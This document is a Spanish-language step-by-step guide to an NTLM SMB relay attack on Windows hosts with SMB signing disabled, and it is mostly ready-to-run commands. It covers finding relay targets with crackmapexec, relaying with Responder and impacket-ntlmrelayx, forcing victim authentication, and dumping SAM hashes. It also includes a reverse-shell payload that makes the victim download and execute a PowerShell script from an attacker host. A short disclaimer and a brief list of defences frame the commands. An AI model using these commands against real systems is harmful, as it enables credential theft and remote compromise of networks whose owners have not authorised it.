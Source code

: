 # NTLM SMB Relay Attack Guide


## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar socks4 127.0.0.1 1080
```bash
/etc/proxychains4.conf:
````
7 Poner la máquina en escucha con netcat
```bash
netcat -lvp 5555
````

## 💣 Paso clave: Forzar autenticación
## En la máquina víctima (manual o con script):
## Ejecutar esto en CMD de la víctima:
```bash
net use \\192.168.1.100\fake-share /u:fakeuser fakepass
````
## O intentar acceder manualmente a:
```bash
\\192.168.1.100\carpeta-falsa
````
## 🎯 Explotación exitosa
## Cuando veas esto en ntlmrelayx:
[+] Authenticated against 192.168.1.10 (Windows 10)

## Opción A: Robar hashes
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````
## Opción B: Reverse Shell
## 1. Hostear shell.ps1 (Terminal 3)
```bash
python3 -m http.server 8000
````
## 2. Ejecutar relay con payload
```bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')\""
````

## 🔒 Medidas de protección
- Activar SMB Signing (GPO)
- Deshabilitar NTLM
- Bloquear tráfico SMB no esencial
- Monitorear eventos 4624 (Windows) con autenticaciones inusuales

⚠️ IMPORTANTE: Este ataque solo funciona si:
- La víctima tiene privilegios de administrador
- El servicio SMB está activo
- No hay SMB signing habilitado


